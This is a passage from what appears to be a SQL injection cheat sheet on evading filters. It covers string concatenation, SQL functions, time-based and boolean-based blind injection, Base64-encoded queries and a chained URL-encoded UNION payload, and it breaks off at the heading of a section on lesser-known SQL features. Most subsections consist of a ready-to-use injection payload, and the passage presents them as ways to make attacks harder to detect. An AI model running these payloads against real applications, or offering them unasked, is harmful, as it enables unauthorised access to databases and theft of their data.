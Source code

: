 ### 4. SQL Function and Command Obfuscation

#### String Concatenation

Break strings into smaller parts and concatenate them.
```sql
' UNION SELECT 'ad'||'min', 'pa'||'ss' --
```

#### Using SQL Functions

Leverage SQL functions to manipulate the payload.
```sql
' UNION SELECT VERSION(), DATABASE() --
```

### 5. Time-Based and Boolean-Based Payloads

#### Time-Based Blind SQL Injection

Use time delays to infer information from the response.
```sql
' AND IF(1=1, SLEEP(5), 0) --
```

#### Boolean-Based Blind SQL Injection

Use conditions that alter the response based on true or false conditions.
```sql
' AND IF(1=1, 'A', 'B')='A' --
```

### 6. Advanced Encoding Techniques

#### Base64 Encoding

Encode payloads using Base64.
```sql
' UNION SELECT FROM_BASE64('c2VsZWN0IHZlcnNpb24oKQ==') --
```

#### Custom Encoding Scripts

Create custom scripts to encode and decode payloads in different formats.

### 7. Chaining Techniques

#### Combining Multiple Bypass Techniques

Use a combination of techniques to create a more complex and harder-to-detect payload.
```sql
%27%20UNION/**/SELECT/**/CHAR(117)%7C%7CCHAR(115)%7C%7CCHAR(101)%7C%7CCHAR(114),%20CHAR(112)%7C%7CCHAR(97)%7C%7CCHAR(115)%7C%7CCHAR(115)%20--%0A
```

### 8. Leveraging Lesser-Known SQL Features
